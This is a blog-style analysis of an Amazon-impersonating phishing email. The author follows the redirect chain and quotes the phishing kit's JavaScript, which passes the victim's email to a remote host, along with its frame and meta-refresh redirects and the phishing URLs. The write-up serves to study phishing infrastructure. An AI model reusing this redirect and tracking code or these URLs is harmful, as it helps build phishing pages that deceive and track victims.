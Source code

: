 ```yaml
---
date: "2018-12-28"
title: "Phishing"
category: "Hacking"
---
```

![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/phishing.jpg)

Today I received an interesting phishing email.
<br />
I did the research and found out it's actually a good learning opportunity,
since attacker's server demonstrates excellent practice in network security.
<br />
Today's goal is to attack phishing server by mimicking victims.
<br />
### Email content
<b>TITLE:</b> RE: Wrn ,protect your sensitive data from unauthorized access
<br />
<b>FROM:</b> goer.vassaux05@ingame.de
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/email.jpg)
<br />
As you can see, the attacker just attached a copy image to mimic Amazon site.
<br />

### Verification Process
#### Microservice
By clicking 'log in', the victim would be navigated to "http://karet1nagut4zinat2a.myvnc.com/Lzmvejr9/9VRl0.html?e=user@domain.com&A3zj864z4g4h=Yku8nhrrI24"
<br /> 
P.S. Before doing this, we need to set up proxies on Chrome and Postman since attacker's server will block client by IP address.
<br />
<br />
And the response is pure JavaScript code as following
```js
<script type="text/javascript">
function getUrlVars() {
var vars = {};
var parts = window.location.href.replace(/[?&]+([^=&]+)=([^&]*)/gi, function(m,key,value) {
vars[key] = value;
});
return vars;
}
var email = getUrlVars()["e"];

document.write('
    <script type="text/javascript" src="ip-email.php?email='+ email +'"><\/script>');



    </script>
    <script type="text/javascript">

window.location = 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/c.php?click=yes&acc=yes&data=6bdP07fjlZU&e=' + email;

</script>
```
> <b>This process seems redundant. Why does the server need an extra redirect logic ?</b>
<br />
Once you look at the redirect URL, you would find out the server is a microservice with auto-generated host name.

Such a beautiful design !!
<br />
The attacker leveraged 'serverless' concept and used that to avoid direct attack.
I guess the domain name would switch time to time within a sub-net system.
<br />
#### Cookie
After making GET request to the redirect server, I received an empty response.
But, I got 'Set-Cookie' key in the response header.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/cookie.jpg)
> OK, I guess this is a typical security practice. Good Job, attacker.
<br />
Then we need to use this cookie to personate the victim in later requests.

By using 'Link Redirect Trace' Chrome extension, I found there should be one more redirect.
One GET request to 
'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/6bdP07fjlZU/de/smart.html'
<br />
And then the response was
```js
<meta HTTP-EQUIV='REFRESH' content='0; url=/XIUKBYXj/6bdP07fjlZU/slsE7oEhpngamqHFQpNhvh7HJSAASj/do.html?id=FVtbYxvrAkxwH8DUr4b5ml5gCTccpJkrP6NlJxDo'>
```
> Hmmm...using meta tag to redirect to target URL

After redirect, I got
```html
<title>Amazon</title>
<link rel="shortcut icon" href="files-aws/favicon.ico" type="image/x-icon">
<frameset>
    <frame src="/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php">

    </frameset>
```
Making one more GET request to 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php'

and I got
```html
<script type="text/javascript">
	if (parent.frames.length > 0){
        top.location.replace(document.location);
	}</script>
<meta HTTP-EQUIV="REFRESH" content="0; url=do.html.">
```

> I was thrilled by this result. Its about to make login request

### Client Puzzle Protocol (CPP)
> CPP is one type of protocol which fights against DDoS / DoS attacks

I was really amazed by how sophisticated the defense is here.
After making the call to 'iframe.php', I got a puzzle in Javascript code and 
this is typical CPP which protects attacker's server from DoS attacks.

Then I stopped from this point since I didn't wanna spend more time on this puzzle script.
I saw a function called 'AES' and it could possibly a 
<a href="https://en.bitcoin.it/wiki/Proof_of_work"><b>[proof of work]</b></a> kind of puzzle,
in which clients need to guess the token by hashing the key again and again until it matches.

### Summary
From this research, I found I have more things to learn and somehow respect those hackers
who sent phishing mails and had set up these amazing security layers to protect themselves from another hackers.